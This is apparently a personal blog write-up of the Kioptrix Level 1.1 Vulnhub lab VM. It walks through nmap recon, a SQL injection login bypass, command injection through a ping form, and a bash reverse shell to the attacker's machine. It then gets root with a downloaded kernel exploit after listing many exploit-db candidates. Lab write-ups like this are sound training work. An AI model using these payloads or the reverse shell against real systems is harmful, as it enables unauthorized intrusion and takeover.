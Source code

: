 ```yaml
---
layout: post
title: Vulnhub: Kioptrix: Level 1.1
---
```


This is my first writeup of a Vulnhub VM, so let's see how this goes...

This writeup is for the Kioptrix: Level 1.1 (#2) found [here](https://www.vulnhub.com/entry/kioptrix-level-11-2,23/).

The VM was run using VMWare and the attacking machine was a Kali Linux VM running in Virtualbox, both in host-only networking mode.

## Recon and Enumeration
I used netdiscover to find the IP of the box.
```
root@kali:~# netdiscover
```
![netdiscover output]({{ site.baseurl }}/images/KioptrixLevel1_1/netdiscover.png "netdiscover output")

Because I knew that the VM was running in VMWare, I chose the VMWare IP, 192.168.56.106

I then ran `nmap` to find open ports with services running on them.

```
root@kali:~# nmap 192.168.56.106
Starting Nmap 7.70 ( https://nmap.org ) at 2019-10-20 13:18 EDT
mass_dns: warning: Unable to determine any DNS servers. Reverse DNS is disabled. Try using --system-dns or specify valid servers with --dns-servers
Nmap scan report for 192.168.56.106
Host is up (0.0015s latency).
Not shown: 994 closed ports
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
111/tcp  open  rpcbind
443/tcp  open  https
631/tcp  open  ipp
3306/tcp open  mysql
MAC Address: 00:0C:29:51:2F:3D (VMware)

Nmap done: 1 IP address (1 host up) scanned in 0.38 seconds
```

I noticed that there may be an http server running on the box, so I went to the IP address in a web browser and was presented with a logon page.

## Vulnerability Discovery and Exploitation

![Logon page]({{ site.baseurl }}/images/KioptrixLevel1_1/logon.png "Logon page")

I tested a few basic username and password combinations, but it didn't seem to do anything. I ran OWASP ZAP to find any potential vulnerabilities or hidden pages. Using an automated scan, ZAP detected a possible SQL injection vulnerability on the logon page.

![ZAP Results]({{ site.baseurl }}/images/KioptrixLevel1_1/zap.png "ZAP Results")

I plugged the attack used (`ZAP' OR '1'='1' --`) into the username field and was presented with a form to ping a machine on the network. I immanently suspected there to be a bash injection vulnerability, but I plugged in an IP to make sure.

This brought me to a page containing the output to the ping command.

![ping results]({{ site.baseurl }}/images/KioptrixLevel1_1/ping.png "ping Results")

I ran `; ls` to make sure that I could inject a command and was presented with a directory listing. Next, I injected a reverse shell by first opening a netcat listener on my Kali VM and then putting the shell code into the form.

```
root@kali:~# nc -nvlp 1234
```

```
; bash -i >& /dev/tcp/192.168.56.101/1234 0>&1
```

This presented me with a shell on my Kali VM.

![Reverse Shell]({{ site.baseurl }}/images/KioptrixLevel1_1/shell.png "Reverse Shell")

## Privilege Escalation

I first check the user that I am.

```
bash-3.00$ whoami
apache
```

I look around a bit to find possible things to exploit, but I can't find anything obvious.

Next, I check the kernel version to see if there are any exploits available.

```
bash-3.00$ uname -a
Linux kioptrix.level2 2.6.9-55.EL #1 Wed May 2 13:52:16 EDT 2007 i686 i686 i386 GNU/Linux
```

I found that the box was vulnerable to ['ip_append_data()' Ring0 Privilege Escalation](https://www.exploit-db.com/exploits/9542).

Because neither box was connected to the internet, I used a shared folder on my Kali VM to move the exploit to it. I then used the python SimpleHTTPServer to send the file to the box.

```
root@kali:~# python -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

I used `wget` on the box to retrieve the file from my Kali VM.

```
bash-3.00$ cd /tmp
bash-3.00$ wget 192.168.56.101/9542.c
--10:41:56--  http://192.168.56.101/9542.c
           => `9542.c'
Connecting to 192.168.56.101:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 2,643 (2.6K) [text/plain]

    0K ..                                                    100%    5.65 MB/s

10:41:56 (5.65 MB/s) - `9542.c' saved [2643/2643]
```

I then compiled it according to the instructions and ran it.

```
bash-3.00$ gcc -o 9542 9542.c
bash-3.00$ ./9542
[-] exploit failed, try again
```

This unfortunately didn't work. I looked at the source code to figure out why, but couldn't figure it out as this error is supposed to happen when the uid did not change with the exploit.

I uploaded [linuxprivchecker.py](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) and ran it to find other potential vulnerabilities with the box.

```
bash-3.00$ python linuxprivchecker.py
...
[*] FINDING RELEVENT PRIVILEGE ESCALATION EXPLOITS...

    Note: Exploits relying on a compile/scripting language not detected on this system are marked with a '**' but should still be tested!

    The following exploits are ranked higher in probability of success because this script detected a related running process, OS, or mounted file system
    - 2.6 UDEV < 141 Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8572 || Language=c
    - 2.6 UDEV Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8478 || Language=c
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c

    The following exploits are applicable to this kernel version and should be investigated as well
    - Kernel ia32syscall Emulation Privilege Escalation || http://www.exploit-db.com/exploits/15023 || Language=c
    - 2.x sock_sendpage() Local Root Exploit 2 || http://www.exploit-db.com/exploits/9436 || Language=c
    - open-time Capability file_ns_capable() - Privilege Escalation Vulnerability || http://www.exploit-db.com/exploits/25307 || Language=c
    - 2.4/2.6 sock_sendpage() ring0 Root Exploit (simple ver) || http://www.exploit-db.com/exploits/9479 || Language=c
    - 2.6 UDEV < 141 Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8572 || Language=c
    - 2.4/2.6 sock_sendpage() Local Root Exploit [2] || http://www.exploit-db.com/exploits/9598 || Language=c
    - open-time Capability file_ns_capable() Privilege Escalation || http://www.exploit-db.com/exploits/25450 || Language=c
    - CAP_SYS_ADMIN to Root Exploit 2 (32 and 64-bit) || http://www.exploit-db.com/exploits/15944 || Language=c
    - 2.6.x ptrace_attach Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8673 || Language=c
    - 2.x sock_sendpage() Local Ring0 Root Exploit || http://www.exploit-db.com/exploits/9435 || Language=c
    - 2.4/2.6 bluez Local Root Privilege Escalation Exploit (update) || http://www.exploit-db.com/exploits/926 || Language=c
    - CAP_SYS_ADMIN to root Exploit || http://www.exploit-db.com/exploits/15916 || Language=c
    - 2.4/2.6 sock_sendpage() Local Root Exploit (ppc) || http://www.exploit-db.com/exploits/9545 || Language=c
    - 2.6 UDEV Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/8478 || Language=c
    - MySQL 4.x/5.0 User-Defined Function Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/1518 || Language=c
    - Sendpage Local Privilege Escalation || http://www.exploit-db.com/exploits/19933 || Language=ruby**
    - 2.4/2.6 sock_sendpage() Local Root Exploit [3] || http://www.exploit-db.com/exploits/9641 || Language=c
    - 2.4.x / 2.6.x uselib() Local Privilege Escalation Exploit || http://www.exploit-db.com/exploits/895 || Language=c

Finished
=================================================================================================
```

I tested the [2.6 UDEV < 141 Local Privilege Escalation Exploit](https://github.com/sleventyeleven/linuxprivchecker/blob/master/linuxprivchecker.py) using the same methodology as above, but it didn't work either. I went down to the [2.4/2.6 sock_sendpage() Local Root Exploit (ppc)](http://www.exploit-db.com/exploits/9545), once again with the same methodology
and this time it worked.

![Root]({{ site.baseurl }}/images/KioptrixLevel1_1/root.png "Root")

